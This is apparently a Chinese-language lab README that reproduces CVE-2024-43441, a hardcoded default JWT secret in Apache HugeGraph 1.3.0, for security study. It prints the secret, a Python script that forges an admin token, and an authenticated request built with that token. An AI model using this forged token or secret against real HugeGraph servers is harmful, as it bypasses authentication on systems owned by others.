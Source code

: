 # Apache HugeGraph JWT Token密钥硬编码漏洞（CVE-2024-43441）

[English](README.md)

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能，具有出色的性能和企业级的可靠性。

Apache HugeGraph 存在一个 JWT token 密钥硬编码漏洞。当启用了认证但未配置 `auth.token_secret` 时，HugeGraph 将使用一个硬编码的默认 JWT 密钥，其值为 `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`。攻击者可以使用这个默认密钥生成有效的 JWT token，从而绕过认证执行未经授权的操作。

参考链接：

- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

## 环境搭建

执行如下命令启动 Apache HugeGraph 1.3.0 服务器：

```
docker compose up -d
```

服务启动后，可以通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。

默认情况下，Apache HugeGraph 支持两种认证模式：HTTP基础认证和JWT认证。当启动 docker 容器时，系统会使用环境变量 PASSWORD 中指定的值作为默认管理员的密码。在正常情况下，您可以使用用户名 "admin" 和该密码通过 HTTP 基础认证访问 API。

如果您尝试在不提供任何认证头的情况下访问 API，将会收到如下错误：

```json
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

## 漏洞复现

除了默认管理员密码外，我们还可以使用默认 JWT 密钥生成有效的 JWT token 绕过认证。

生成一个使用默认密钥的 JWT token：

```python
# 安装 jwt 库，运行 `pip install pyjwt`
import jwt

# 使用默认密钥生成 JWT token
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

使用生成的 token 访问受保护的端点：

```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

您将收到如下响应：

![](1.png)

如果您移除 `Authorization` 头，您将收到如下错误：

![](2.png)
